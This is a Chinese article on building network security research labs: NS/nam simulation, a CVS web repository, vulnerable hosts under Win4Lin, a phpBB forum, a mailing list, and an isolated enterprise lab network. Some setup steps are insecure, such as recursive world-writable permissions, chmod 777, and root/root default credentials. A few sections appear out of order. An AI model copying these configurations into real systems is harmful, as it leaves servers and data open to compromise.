作为网络安全组织团体，很多情况下成员是在地域上分布于不同位置的，因此构建协作安全研究的物理实验室成为了交流的一种阻碍和羁绊。然而使用仿真技术，应用于巨大的网络空间，从而有机地联系各种相关讨论和定制的网络安全研究，对安全小组来说无疑是种最优秀的解决方案。

> **小知识**
>
> NS（Network Simulator）是一种面向对象、离散事件驱动的网络仿真模拟器。它支持多种 TCP 协议族群，可建立各种不同的单播和组播路由模型和不同的组播协议。更令人激动的是它居然支持移动网络和卫星网络的模型建立。当然，它对诸如 Web caching 等高层应用的模拟支持也自然是其强大功能的一部分。
>
> 利用 NS 所制作的网络模型，初中级用户可以学习和研究比较网络协议而不再受任何编程语言限制；高级用户可以使用 C++ 和 Tcl 语言进行高级开发，设计更为精妙的模拟网络环境；研究人员可以研究新的网络概念，因此使用 NS 建立网络攻防的基础教学研究实验室是相当优秀的。

## 1、程序安装

NS 相当之大，需要 250M 的磁盘空间进行编译，可以从相关光盘中选取一次性压缩包（ns-allinone-2.26.tar.gz），其中包括：

```text
Tcl release 8.3.2
Tk release 8.3.2
Otcl release 1.08
TclCL release 1.0b13
Ns release 2.26
Nam release 1.9
Xgraph version 12
CWeb version 3.4g
SGB version 1.0
gt-itm, gt-itm and sgb2ns 1.1
Zlib version 1.1.4
```

安装非常简单，使用软件附带的安装脚本进行安装：`./install`

```text
设置环境变量路径和类库路径
PATH=$PATH:{当前安装路径}/bin:{当前安装路径}/tcl<版本号>/unix:{当前安装路径}/tk<版本号>/unix
LD_LIBRARY_PATH=$LD_LIBRARY:{当前安装路径}/otcl-<版本号>:{当前安装路径}/lib
TCL_LIBRARY={当前安装路径}/tcl<版本号>
export PATH,LD_LIBRARY,TCL_LIBRARY

测试 ns/nam 功能套件
cd ns-<版本号>
./validate
```

## 2、使用方法

网络模拟环境一般是采用 Tcl 和 C++ 面向对象语言进行编写的，使用 Tcl 编写的模拟网络实验脚本为 tcl 后缀，运行脚本命令为 `ns <tcl脚本名>`，脚本会在标准输出创建一些结果，写入一个跟踪文件或启动 nam 程序进行可视化网络模拟实验。

Nam 是动画模拟程序，可以使用 NS 编码脚本所生成的文件（文件后缀名为 nam）进行图形界面的实验模拟。运行命令为 `nam <nam文件名>`。其主运行界面如图17。


图17

关于所使用的模拟脚本可以从 `http://www.isi.edu/cgi-bin/ns-edu/view_db.pl` 下载 tcl 文件和 namtrace 文件进行使用。在 nam 软件目录也附带了大量指定的网络教学模拟脚本，极大地方便了对各种网络协议的研究和学习。而这些脚本一般都配备了屏幕截图和文字说明（对于英语不好的读者可能稍微感到有些吃力），完全满足了对网络协议实验的部分要求。

## 特别策划

以下实例是脚本 Fast-retransmit.tcl 模拟的可视化图形（如图18）。


图18

从模拟网络图形可以看出 TCP 在网络中的错误侦测机制，诸如数据包丢失或网络拥塞等。当发送一个数据包时，TCP 为所发送的数据包设置一个计数器，此计数器使用算法设置重发延时；当计数器发生超时时，说明网络中发送传输故障。这里采用一种新的机制：快速重发，用于在窗口尺寸较大时，增强链路可靠性和利用率。

## 3、程序设计基础

利用 ns/nam，对网络协议感兴趣的读者完全可在界面动画的环境中轻松学习和研究各种网络协议和它们所具备的漏洞特征，从而掌握网络基础知识。然而对于一个发展的开放式网络教学实验室，必须对模拟网络实验代码进行不断开发和维护，因此编写代码成为了此类实验室发展的一个关键点。因此，如何设计好的模拟代码成为了一种必备技能（这里只叙述简单的 tcl 开发过程，对此感兴趣的读者可参阅光盘所带的 ns_doc.pdf 文档）。

- 1) 脚本模板编写

这里编写的语法是整个脚本运行环境的框架结构（可以使用任何编辑器，诸如 Linux vi 或者 Windows Notepad 等）。

```tcl
set ns [new Simulator]
set nf [open out.nam w]
$ns namtrace-all $nf
...
proc finish {} {
  global ns nf
  $ns flush-trace
  close $nf
  exec nam out.nam &
  exit 0
}
$ns at 5.0 "finish"
```

```tcl
//$ 启动模拟进程
$ns run
// 整个框架建立完毕，可以存盘为 example.tcl，然后由于没有对象，因此无法运行此程序
```

- 2) 两节点链路连接

```tcl
// 根据 example.tcl 框架，在“$ns at 5.0 "finish"”语法前面添加两点链路程序
set n0 [$ns node]
set n1 [$ns node]
$ns duplex-link $n0 $n1 1Mb 10ms DropTail
```

存盘退出，运行界面如图19（ns example.tcl）。


图19

- 3) 模型动态数据发送过程

上面的模型当然不能令人满意，只定义了两个端点，而没有实际的模拟数据发送，就是一种没有生命的虚无框架，为此必须设计数据在端点间传输的代码。

```tcl
set udp0 [new Agent/UDP]
$ns attach-agent $n0 $udp0
set cbr0 [new Application/Traffic/CBR]
$cbr0 set packetSize_ 500
$cbr0 set interval_ 0.005
$cbr0 attach-agent $udp0
set null0 [new Agent/Null]
$ns attach-agent $n1 $null0
$ns connect $udp0 $null0
$ns at 0.5 "$cbr0 start"
$ns at 4.5 "$cbr0 stop"
```

存盘退出，运行 ns example.tcl，截图如图20。点击 nam 窗口的“Play”按钮，将会看到 0.5 秒，端点 0 开始发送数据给端点 1。也可以使用“step”滑动条减慢模拟动画。并且可以在动画中直接点击想要观察的数据包进行解包分析，也可以点击对象获得一些图形的统计画面。有兴趣的读者可以通过修改数据包尺寸和发送间隔时间，以观看两点链路间数据如何发送。


图20

利用优秀的 NS/NAM 软件包，实现了校园网络实验室的学习功能。然而随着实验室的不断发展，模拟代码的持续维护和浏览参考变得重要，因此必须建立方便的代码维护存储库以利于实验室未来的发展。

## 网络仿真脚本版本稳定版

NS 仿真实验室需要大量的实验脚本代码以支持其教学的运作，而针对不同协议设计的仿真实验脚本数量众多，脚本本身也在实际应用中不断升级。因此，维护协议实验脚本成为 NS 仿真实验室教学应用的关键部分。采用著名的 CVS 服务器，则能轻松解决这个问题。CVS 是优秀的源代码开放协作版本控制系统，本来是用于软件开发时解决版本冲突控制，这里使用其维护 NS 实验代码，有利于各种网络协议实验代码的维护和方便升级。

采用组件 CVS-1.11 + CVSWEBCLIENT-2.2（cvswebclient 是个精妙的软件，通过浏览器就可以完全对 CVS 服务器进行浏览和编辑操作，遗憾的是作者目前由于压力问题，不再对软件进行升级开发）。

## 1、CVS 安装

- (1) 解压并编译软件（光盘目录或从 cvshome.org 下载）

```bash
# tar zxvf cvs-1.11.tar.gz
# cd cvs-1.11
# ./configure
# make
# make install
# （默认安装至 /usr/ 目录）
```

- (2) 设置环境变量

`CVSROOT=/opt/master; export CVSROOT`

- (3) 建立 CVSROOT 目录

用户需要对 CVSROOT 里的文件进行读写，建立一个组和一个属于该组的账户，这样做的好处在于以后有读写权限的用户只要属于该组就行。

```bash
# groupadd cvs
# adduser cvsroot -g cvs -d /opt/master
```

- (4) 修改 /opt/master（CVSROOT）的权限，赋予 cvs 同一组人有读写权限：`chmod g+x`
- (5) 初始化 CVS 仓库：`cvs -d /opt/master init`
- (6) 测试 CVS 服务器

```bash
# cvs import -m "test distribution" ccvs CVS-DIST CVS-TEST
// 添加一个名为 test distribution 的项目，存放路径是 ccvs，备份路径为 CVS-DIST，版本名标签 CVS-TEST
# cd
# cvs checkout ccvs
// 在屏幕取回会出现 ccvs 母项，说明 CVS 正常运行。
```

- (7) 添加 CVS 服务账户（编辑 /etc/group）：

`cvs:x:105:star01,star02,(anyone u wanna)`

## 2、CVS 服务器管理

在 CVS 账户主目录中（这里为 /opt/master）有一个 CVSROOT 目录，其中包括三个配置文件 passwd、readers、writers，用于限制 CVS 读写操作权限。

- (1) passwd 文件格式

`{cvs 用户名}:[加密的口令]:[等效系统用户名]`

如果希望一个用户只是 cvs 用户，而不是系统用户，按照上面格式，第二个字段是该用户的加密口令（可用 crypt(3) 加密），第三个字段是等效系统用户名。

```text
star01:$xxefajfka;faffa33:cvspub
star02:$aifaa1,323r00feeanv:cvspub
star03:$fajkoipaieje:cvspub
star04:$fkajfjuieuirfng:cvspub
```

- (2) readers 文件是 cvs 读权限的用户列表文件。文件中加入用户名即可实现用户读取权限。

范例：

```text
star01
star02
```

- (3) writers 文件是 cvs 写权限的用户列表。

范例：

```text
star03
star04
（注：cvspub 为创建的一个公用系统账户）
```

- (4) 对于使用 CVS 的用户要修改其环境变量。在 `star0X` 下的 `.bash_profile` 文件中加入：

```bash
CVSROOT=/home/cvsroot
export CVSROOT
```

## 3、CVS 使用

WinCVS 是一个很好的 CVS 客户端软件，在 `http://cnpack.cosoft.org.cn/down/wincvsdailyguide.pdf` 可以下载到这个软件的使用手册。然而这里使用 cvswebclient 在浏览器实现对 CVS 仓库文件的编辑和浏览，不需要下载任何客户端软件，非常实惠。

- 1. 首先安装 Perl 软件包和 RCS 软件包，可到 rpmfind.net 下载，Redhat7.2 已默认安装。
- 2. 修改可执行文件格式。
- 3. 编辑 `/etc/group`，在 cvs 组中添加 httpd 账户，使运行 `cvswebread.cgi` 的 httpd 进程对 `/opt/master` 具有写权限。
- 4. Web 服务器 `httpd.conf` 配置修改，增加如下内容。

```bash
cd cvswebclient
find . -type f -exec dos2unix {} \;
```

```apache
# 增加解析 cgi 的句柄脚本
AddHandler cgi-script .cgi
# 增加虚拟目录映射
ScriptAlias /cvs-web/ "/usr/local/cvswebclient/cvs-web/"
# 设置覆盖 .htaccess 文件的权限
<Directory "/usr/local/cvswebclient/cvs-web/">
AllowOverride All
</Directory>
# 映射日志记录目录
Alias /cvs/ "/usr/tmp/"
# 调整脚本日志
ScriptLog /usr/local/cvswebclient/cvs-web/tmp/script.out
```

- 5. 拷贝 `etc/TEMPLATE-cvswebconfig.pl` 为 `etc/yourshorthostname-FILENAME`（例如：`my.lab.org` 则为 `my-cvswebconfig.pl`）。
- 6. 设置 `etc/my-cvswebconfig.pl` 几个可修改变量。

```text
$administrator
$tempdir
$distdir
$installurl
$cvsroot
$cvswebeditdbg:url
```

这里需要修改 `$cvsroot` 主目录的指向 `/usr/local/cvswebclient/cvs-web/`。使用 `perl cvswebconfig.pl` 和 `cgi-style.pl` 检查文件配置正确性。文件中的 `$installdir` 变量与 `httpd.conf` 中 `ScriptAlias` 指令所对应值相等。

- 7. 创建 `$tempdir` 变量所指定的两个目录，并赋予相应写权限。

```bash
cd cvswebclient
mkdir temp
mkdir temp/cvswebcreate
mkdir temp/cvsweb-upload
cd temp
chmod a+rwx *
```

- 8. 在 `etc/htpasswd` 放置访问的用户名和密码。

```bash
cd apache/bin
./htpasswd -b /usr/local/cvswebclient/cvs-web/etc/htpasswd username password
```

- 9. 在 `etc/htgroup` 针对 `cvs-web` 目录下子目录设置对应组访问权限，默认情况为 test 组（不要使用默认设置，以免带来安全性问题）。
- 10. 编辑 `userdb.txt` 文件，使用户可以使用 cvswebclient，格式为 `username:{full name}`，其列表内容可以从 `etc/htpasswd` 复制相关字段。
- 11. 拷贝 `cvs-web/icons` 目录中的图标文件到 `$DocumentRoot` 变量所设置的地方并编辑 `cvswebconfig.pl` 中 `%ICONS-Hashtable`，也可使 httpd 访问 `cvs-web/icons`，不需进行任何改动。
- 12. 运行 `etc/write_configs.pl` 脚本，在 `cvs-web` 中每个目录下产生 `.htaccess` 文件。

```bash
cd cvswebclient/cvs-web/etc
perl write-configs.pl
```

- 13. 确信 `cgi` 文件的执行权限，可在根目录执行：`find . -name \*.cgi -exec chmod a+x {} \;`
- 14. 修改 cgi 文件第一行（`#!/usr/local/bin/perl -s`）以指向实际的 Perl 解析器。
- 15. 确定安装必要的 Perl 模块，也可以使用 `cvs-web/lib` 目录自带的模块（`cgilog.pm` 和 `AuditLog.pm`）。
- 16. 确信 Web 进程能访问软件版本存储目录。

```bash
cd /opt/master
chmod -R a+rwx .
```

- 17. 运行 `http://local/cvs-web/read/cvswebread.cgi`

## 4、安装成功后界面截图

- 1. 登录主界面，包括创建/编辑文件目录、搜索树、历史版本等链接（如图2.1）。


- 2. CVS 目录树浏览及相关信息（如图2.2）。

图2.2 文件列表（含 File、Rev、Age、Author、Last log entry 等列）

- 3. 编辑／创建文件界面（如图23）。


图23

通过 cvs + cvsweb 方式为 NS 实验室脚本代码维护提供非常舒适便捷的环境，保证网络实验室能不断完善和发展自身的多种学习研究功能。

## 漏洞主机测试区

漏洞主机测试区部分不仅考虑支持多种现行系统及其漏洞的研究，还需要考虑其所承担应用时的负载均衡。这里所构建仅介绍相关建设方法，至于负载均衡、服务集群等考虑因素，将在适当的时候与朋友分享研究所得。

通过 VMware、Virtual PC 和 Win4Lin 等比较，决定基于 Linux + Win4Lin 实现单机模拟多操作系统，实现实验室建设中研究漏洞主机的场所。这是由于 Win4Lin（http://www.netraverse.com/）的站点页面有这么一句话：Bringing Windows To Linux。这种雄心气势的语句很令我感到敬佩，而 Win4Lin 在 Linux 上模拟其他操作系统能力强大，并且安装比 VMware 简单很多，而且价格也是几种虚拟软件中最廉价的。

从 netraverse 下载 netraverse_installer.tgz 或从随机光盘获得：

```bash
tar xzvf netraverse_installer.tgz
cd netraverse_installer
./win4lin-install
```

输入序列号，在安装向导指导下完成剩余部分，重新启动计算机。

```bash
/usr/bin/win4lin-install
```

安装 Windows 系统（如图24），指定 Windows 文件的源拷贝目录（如图25）。


图24

这里在选择 WinSock 还是 VNET 时，如果在局域网中并且想访问局域网中的其他机器，请选择 VNET；否则请选择 WinSock 方式（如图26）。


图25


图26

开始安装 Windows，这和正常的 Windows 安装没有什么区别（如图27）。


图27

安装完成后，在 Linux 桌面上会多出一个 Win4Lin 图标，双击就可以进入 Windows 系统（如图28和图29）。

> 注意：使用 Win4Lin 安装多个有漏洞的主机系统时，应该让多台主机虚拟文件位于同一分区之下。对此分区进行必要的备份措施，促使漏洞测试环境更安全可控。漏洞实验研究的虚拟主机在发生系统崩溃时能迅速恢复工作。此虚拟主机系统建议采用 512M 内存和 P4 系列的高端 PC 机器；并且同时打开操作系统最好限定在 5 个范围内，使虚拟集群系统能正常担负漏洞研究的工作。


- 7、论坛界面截图（如图32）


简洁的界面和素雅的颜色刚好匹配了实验室本身的严谨风格和治学目的。

## BBS交流系统

对于一个开放式的攻防研究实验室，提供一个学习心得和研究话题的交流场所是非常惬意的，因此实验室提供 BBS 功能显而易见也是非常必须的。网络上提供各种功能强大、界面丰富的 BBS 系统，而这里我推荐的 BBS 是一个优秀的源代码开放组织所编写：phpBB。它支持 MySQL、MSSQL、PostgreSQL 和 Access 等流行数据库，并且支持包括中文在内的多种语言，论坛私属/公开设置等特点，是建立 BBS 系统不错的选择。

- 1. 从随机光盘解压至 Web 服务器根目录：`tar zxvf phpBB-2.0.6.tar.gz`
- 2. 修改 `config.php` 的写权限设置：`chmod 666 config.php`
- 3. 创建数据库：`mysql -p create phpbb`
- 4. 浏览 `http://yourwebserver/phpbb/install/install.php`（如图30）
- 5. 保证安全，删除 install 目录和 contrib 目录：`rm -rf install contrib`
- 6. 管理页面截图（如图31）

## 邮件列表

在实验室站点的注册用户很可能期望通过邮件方式获得最新的实验内容和攻防实验相关的动态新闻，建立邮件列表能有效地提供这种功能。SourceForge 的 phpemaillist 免费计划项目似乎成为许多国外安全小组的一种流行时尚，这里也采用了这个软件。

- 1. 拷贝软件到 Web 根目录下。
- 2. 修改 `templates` 为可写目录：`chmod 777 templates`
- 3. 编辑 `include` 目录中 `config.php` 文件中的数据库连接属性。

```php
# MySQL host, username and password
define('DBHOST', 'localhost');
define('DBUSER', 'dbaccount');
define('DBPASSWD', 'dbpassword');
# Name of MySQL database
define('DBNAME', 'phpemaillist');
```

- 4. 创建数据库：`mysqladmin -p create phpemaillist`
- 5. 运行 `http://yourwebserver/maillist/setup.php` 初始化数据库（如图33）

## 第三部分 企业网络攻防实验室


图33

- 6. 登录窗口，初始管理员用户 root，密码 root（如图34）。


图34

- 7. 创建邮件列表（如图35）。


图35

- 8. 订阅邮件列表截图（如图36）。


图36

通过优秀的 phpemaillist 建立了一个简单易用的电子邮件列表，能极大地满足实验室及时信息发布的需求。

当掀开著名的 NSEC 公司的网页，豁然映入眼帘的是一个 Alerts 的警示图标，提示着最新的安全漏洞警报。当然，每个安全公司都有着类似的网页发布最新的安全动态和安全建议；而所有这些安全消息和迅速的安全建议则来自于他们强大的网络安全研究实验室，因此建立一个优良的网络安全研究实验室对一个企业团体来说是至关重要的。

然而，对于构建商业化企业级别的网络攻防实验室的资料是相当稀少而珍贵的，毕竟这属于企业内部的专属秘密，也是其产品与恶意攻击进行及时对抗的研究基地。所以本章采用了 Matt Bishop 和 L. Todd Heberlein 于 1996 年发表的《An Isolated Network for Research》为原型，引入现代流行的技术专业名词，并增加一些改进，形成了对企业团体建立攻防实验室的建设性意见和实现要求。

> **注意：**由于企业对其产品所要求的安全防护目的和方式不同，所以建立这样的实验室形式各异。具体构建方法可根据自身对网络安全研究的侧重点不同，对孤立网络的实验环境进行构建，因此均需具体实现方法。

“绝缘”网络是进行漏洞分析及其攻击工具利用成功的关键。维持这样一个网络会引入从 Internet 到孤立网络进行数据传输的实现方法和策略等一系列问题。因此，成功建立一个企业内部进行安全研究的网络实验室，关键在于：所保护孤立网络的数据和程序是可信任的，以及实现实验环境的相关策略和方式。

漏洞研究需要对已知的安全问题进行分析，并研究新技术以发现尚未为人所知的安全问题。对漏洞进行实际攻击有助于研究人员（实际上这些人员是黑客世界里最值得人们尊敬的终极黑客）理解漏洞是如何产生的、这些漏洞对相关操作系统组件造成何种影响，最终提出建设性的修补方式和相关补丁。理论上，我们可以从漏洞描述中进行漏洞分析；然而在实践中，现代操作系统的复杂性使得这种漏洞分析仅仅是起步。

可以假设这样一个观察现场：黑帽利用各种漏洞进行攻击，安全研究小组会注意到很多漏洞。由于精力和时间关系，面对如此多的漏洞出现，如何及时研究并发掘这种漏洞的补救方法，变得迷惘了很多。以攻攻毒的方式虽然很陈旧，然而这里却无疑是最恰当的应用。实施漏洞利用攻击的黑帽在进行漏洞践踏的同时，也提供了关于漏洞的丰富信息资源，他们发明了自动利用这些漏洞进行攻击的程序。于是高效的做法便是：执行这些小程序并分析它们的行为，通常可以确定脚本所利用的漏洞是哪一种类型，从而根据新漏洞的数据样本进行分析。

在计算机网络漏洞研究中，目的是为特定类型计算机系统的安全性问题提供具体明确的细节和解决办法。糟糕的是，一些数据中包含了有安全问题的站点、主机系统甚至 IP 地址。因此这些数据具有敏感特性（这里敏感的含义是信息本身带有安全危害特性），绝对不能让未经授权的用户访问，更不能被 Internet 公开访问。根据企业实验室的特有性质，实验室模型必须能保护孤立网络中的信息，而且模型应当可实现、可扩展。

## 1、攻防实验室模式选型

“孤岛”网络包括几个运行不同版本 UNIX 操作系统（SunOS、IRIX 和 HPUX）的主机。这也和我们的模型选择相契合，因为模型简单，可以使用 UNIX 本身的保护机制来实现，并提供充足的安全“养料”。安全“养料”是孤岛网络所具有的电子气质之一，其主要以四种数据和程序存储形式展示“孤岛”网络的安全资源。安全“养料”分为漏洞数据库（包括漏洞描述、系统类型、漏洞利用攻击环境以及至少一个展示如何利用脚本进行攻击的例子）、攻击工具（提供一种学习攻击脚本分析的基础）、安全工具测试（比较各种诸如入侵检测系统的安全工具的定量比较）和网络连接开关阀（提供开发攻击工具的安全环境，不使其流失到 Internet 空间造成危害）。

- 1. 建立一种让 Internet 用户对孤立信息隔绝的机制；
- 2. 建立让授权用户访问其被授权信息的机制；
- 3. 确保进程执行不影响孤岛网络中存储信息，除非进程获得授权进行操作。

这意味着孤岛网络需要建立多层安全模式。从整个实验室信息威胁度可判断，Internet 的安全等级为最低，而处于孤岛的计算机主机安全等级最高，其间使用物理方式隔离。四种安全“养料”分别是私有程序（Prop）、开发工具（Dev）、漏洞数据和攻击工具。由于攻击工具是漏洞研究的一部分，所以漏洞数据和攻击工具可以合并为一类（Vuln）。其模型访问矩阵如表2。

| 养料安全等级 | 访问安全养料数据对象 |
| --- | --- |
| 低 | 读写权限（受限） |
| 高（Vuln） | 读权限 / 读写权限 |
| 高（Prop） | 读权限 / 读写权限 |
| 高（Dev） | 读权限 / 读写权限 |

表2：访问矩阵（原表为多行多列权限矩阵）

此矩阵模型引入三种新的类型数据（Avuln、Aprop 和 Adev），允许对数据类型进行更改操作，从而实现数据灵活更新和严谨授权机制。根据建议（1），假如孤岛网络属于高度安全级别，而 Internet 安全级别为低，则访问矩阵明确了孤岛网络和 Internet 之间的限制：高安全等级类型不能向低安全级别写入数据。根据建议（2），孤岛用户分配一系列权限，与其操作信息需求相对应。如果不赋予“ A ”类型的操作访问权限，便不授予对数据矩阵的更改权利。这样的限制有利于降低用户在实验时对源数据造成损坏的可能性。这种制度形成一种线性等级制度。

## 2、模型实现及维护管理

本模型的实现综合了程序和技术上的多种机制，以获得全面的安全保护措施，包括处理孤岛网络泄露信息事件、损坏信息事件和外部对孤岛网络的攻击等。从整个模型实现观察得出：内部攻击是最大的危害，因此必须采用一些措施限制这种危害，并确保能快速侦测其出现。整个模型设计如图37。


此实验室建设使用移动磁盘作为信息渡船，从 Internet 到孤岛网络上载文件，而从孤岛网络到 Internet 主机下载数据。

> **注意：**本地使用移动磁盘可能会使整个模型变得缺乏一致性。为解决对信息流细节的实现问题，可采用分级方式，从而控制信息流路径及感染传播的相关行为。

#### 2.1 模型配置

孤岛网络模型框架显示整个孤岛拓扑。当孤岛模型“发展”时，拓扑图会变得更复杂，路由器、网桥和其他网络设备伴随模型壮大而不断增加。然而物理隔离这一原则保持不变，其主要目的是隔离与 Internet 的接口。拓扑图中标记的孤岛主机包含用户主目录和非“敏感”程序（诸如可从 Internet 获得的研究开发工具，比如编译器、邮件发送器、字处理器等）。孤岛主机通过 DNS、NIS 或静态信息表等方式建立彼此信任连接关系。所有孤岛主机运行远程登录和文件传输服务（这些主机也可以运行其他服务），且所有这些服务对于 Internet 来说是封闭或绝缘的。

其中某些孤岛主机可称为漏洞存储仓库，主要存放漏洞和攻击信息，以及一些敏感的攻击工具和程序（属于私有程序或者漏洞侦测利用工具）。假如用户想增加漏洞资源或者更改这些工具程序，必须在这些机器中进行操作。这些漏洞存储仓库绝不能用于实验目的；当在孤岛网络进行各种攻击实验时，可以使这些主机处于离线状态。

#### 2.2 模型实现

安全等级之间主要使用物理隔离机制：孤岛网络与 Internet 完全断绝。从模型访问矩阵可知，高级安全养料不能被低级安全度对象访问。具体实现可分为两部分：可以把具有 Vuln 或 Avuln 权限的用户归入 vuln 组，相应的 Dev 和 Adev 归入 dev 组，Aprop 和 Prop 归入 prop 组。通过漏洞存储仓库导出的程序和数据驻留在信息渡船中，而信息渡船中每个文件分别类属 vuln、dev 和 prop，并且所有组文件可读可写。然而磁盘本身只有只读属性，这样可以防止远程用户对文件的更改。程序和数据对于其他非授权用户不可读写，有利于组织对磁盘的非法访问。属于 Avuln、ADev 和 Aprop 的用户在漏洞存储仓库中有自己相应的账户空间，这就允许这些用户更改漏洞存储仓库的数据和程序，而这些文件又通过移动磁盘导出，实现孤岛与外界的信息交流。

实现这种处理的最大优势是不需要自行开发相关软件，使用很多优秀的第三方软件（诸如 UNIX 中 NFS 系统、Linux 下 Samba 和 Windows 信任域文件共享）即可实现此过程。

尽管使用了物理隔离机制杜绝孤岛网络与 Internet 连接，然而错误仍不可避免。因此，漏洞存储仓库除了文件共享服务外不开放其他应用服务，而所提供的文件共享服务只限制对孤岛主机开放。这意味着数据资料文件传输等其他服务必须关闭。其次，孤岛网络漏洞存储仓库的 IP 地址配置应与企业部门中正常服务器的 IP 地址冲突；这样当漏洞存储仓库与 Internet 连接时，会发生 IP 地址冲突，导致正常服务器无法提供服务。一般网络管理员经验告诉我们：用户会立刻报告这种故障现象给网络管理员，以便采取迅速的检查措施。

#### 2.3 其他特性

由于系统为测试目的而经常被改动，孤岛主机应尽可能保持安装后的系统完整备份，这使得重新初始化安装系统变得快速简单，并消除了重新安装系统的烦琐和维护系统配置而增加的不必要维护开销（虽然诸如 EasyRecover 等软件产品可能迅速恢复损坏系统，然而系统已经成为不“清洁”的系统，存在诸多垃圾文件和无效链接，反而导致系统性能下降）。

身份识别和认证机制引起两个问题：一是新账户的发布方式，二是访问控制进程。账户管理由攻防实验室控制，因此只有实验室的认证许可才能得到账户使用权。为登录孤岛网络，用户首先通过“门锁”（只有授权用户和研究学习者才有对应钥匙），接着进入系统认证体系机制，对进入孤岛网络进行各种验证鉴别。

使用审核机制对孤岛主机的使用者进行“追踪调查”并记录其行为，然而它不会妨碍一个确定进入者所进行的使用操作。当然，构建一个标准的审核机制，在实现企业级攻防实验室时是非常受欢迎的。

#### 2.4 分析

模型使用了 Saltzer 和 Schroeder 的安全设计原则（具体内容可参阅 http://www.cap-lore.com/CapTheory/ProtInf/），其主要内容如下：

- 1. 用户（进程）只应该拥有其必需的最小访问权限（最小特权原则），即所分配权限足够完成其任务。这种安全机制确保对孤岛网络的访问限制于分类授权用户组。
- 2. 访问需要得到明确允许（默认安全原则）。默认情况下，用户通常是一般用户组成员，组内成员关系必须明确指出。
- 3. 所设计的安全机制应小巧简单（经济原则），方便检验。实验室模型根据需要提出驱动方案，根据前面原则分析模型必要设备要求，并据此安全原则构建模型实现的准确性。
- 4. 每个访问都应进行授权检查（完全中介原则）。现代操作系统一般是在文件请求时进行授权检查，然而上面的设计原则使本规则可以有扩展可能。
- 5. 安全不能依靠保密性设计（开放设计原则）。实验室模型和实现对所有用户可用。
- 6. 访问对象应依靠多个安全条件（分离原则）。对孤岛网络实验室本身的物理访问是封闭的，而访问数据或程序需要授权用户账号和组关系；假如访问用户需要更改数据和程序，在指定数据仓库中必须有对应账户。因此在访问安全对象时必须同时满足安全条件才可进行。
- 7. 多用户共享机制最小化（最少通用原则）。这个原则不能强加实施，因为孤岛网络也提供公用硬件和软件设施。

如在一个组件中的数据拥有者想让其数据对其他用户可用，简单设置数据保护模式就可以完成此要求。让受信用户获得所需文件可以改善文件共享，然而安全威胁仍无法消除。

- 8. 实验室模型必须简单易用（心理接受原则）。整个实现模型是标准 Linux 系统，因此系统管理员需要熟悉所有实验室用户群，不需要额外硬件和软件，对用户也没有额外心理负担因素，保证实验室合理规范运作。

实验室模型及其实现方法在构建环境中需要符合这些安全设计原则。然而从 Internet 传输的数据驻留在孤岛网络上，以此提供信息交互，因此数据传输过程变得相当重要。整个模型与外界无缝分离，并要集中解决数据传输方式。因此，如何安全有效地运送这些重要数据，成为具有战略意义的安全要求。

## 3、孤岛网络数据传输

当漏洞研究活动开始后，许多善意用户和系统管理员会提供他们所找到的各种攻击工具程序拷贝。使用 PGP 软件加密这些工具程序并邮件给实验室安全管理员，管理员解密密文，把明文程序放入磁盘，利用磁盘把这些程序放入孤岛网络中。

如果使孤岛网络与 Internet 连接，只对数据进行安全级别重新分类将无疑增加实验室模型规模，这也意味着安全模型组件中的用户能对 Internet 文件进行读写操作。然而这并不是构建实验室所期望的，主要原因如下：

- 1. 用户无意中可能下载敏感信息（比如一般信息和敏感信息文件名只差一个字母，错打文件名导致敏感信息被下载）。
- 2. 用户使用上载程序上传木马和病毒之类的软件。
- 3. 假如孤岛网络用户想向 Internet 中某些人传播信息，或利用攻击脚本对 Internet 主机进行攻击，用户就可以下载这些漏洞信息和攻击脚本。因此实验室模型不能使用逻辑阻隔方式进行数据中转。

“信息渡船”顾名思义能连接 Internet 系统和孤岛网络系统，但这种连接不能同时进行。因为它是孤岛网络与 Internet 连接的唯一硬件，因此其管理是保证漏洞和攻击数据安全的关键点。它需要：

- 1. 孤岛网络对于 Internet 不可见。这允许孤岛网络重新配置，网络规模可改变而不影响其他主机系统和数据库。
- 2. 渡船中只能存放需要传输的程序和数据，特别是不能存放系统可执行文件。
- 3. 充当信息渡船的移动磁盘不能是网络硬盘，即在 Internet 和移动磁盘之间上传和下载的数据不能遭到攻击。
- 4. 渡船内不能存放敏感信息（可能的例外是一些重要数据的上传和下载操作），这包括加密密钥。

充当信息渡船的移动磁盘需要一种特殊应用的硬件设备（比如一个可动态挂接的金属托架），可方便在不同系统之间进行物理装/卸载操作。从上面的框架可知移动磁盘、孤岛网络和 Internet 三者之间的关系。对移动磁盘的管理和维护根据上面的安全要求具体实施。对于 Internet 主机，仅受信用户才能上传和下载程序；这些用户在 Internet 主机系统所拥有的账户空间与孤岛网络账户空间是分离且不相关联的。而进行孤岛网络和 Internet 之间的数据传输需要一个信息安全检查员，他将对每次数据传输提出质疑，确保数据传输的可信度和数据的安全成分，最终执行整个传输。

一般远程用户和系统管理员以明文方式在 Internet 提交攻击工具、程序和漏洞数据。为了使这些漏洞资源以加密方式在信息渡船中传输，PGP 密钥需要和孤岛网络相关联。私钥存放于漏洞存储仓库，而公钥则放置于 Internet 服务器中并对外公布。漏洞资源提交者可以使用公钥加密后再进行传输；而孤岛网络则用其私钥解密加密资源，实现信息渡船的信息安全。

此模型采用了 IWFC（Information Warfare Forensic Center）所构建网络实验室的思路。通过这个实验室模型，完全可以有效研究各种复杂操作系统、网络体系甚至应用的漏洞，及时了解漏洞生成原因并提出侦测漏洞措施和补救方法。另外，也可为攻击提供法庭辩论依据，实现模拟攻击场景，保护私有网络信息资源的专属性和隐私性。

通过以上方式，可自行裁减和增设相关设备，企业完全能建立一个完善且保密的网络研究实验室，从而提高企业产品安全研究的竞争力和安全响应的迅速程度，保持领先势头。

作为一个全面的网络安全研究实验室，个人认为它应该具备开放性、可交流性和学习功能等特性；并且实验平台应具有可靠性、稳定性和可伸缩性。因此第四部分将以一个具体实例介绍一个较为完善的实验室构建案例。

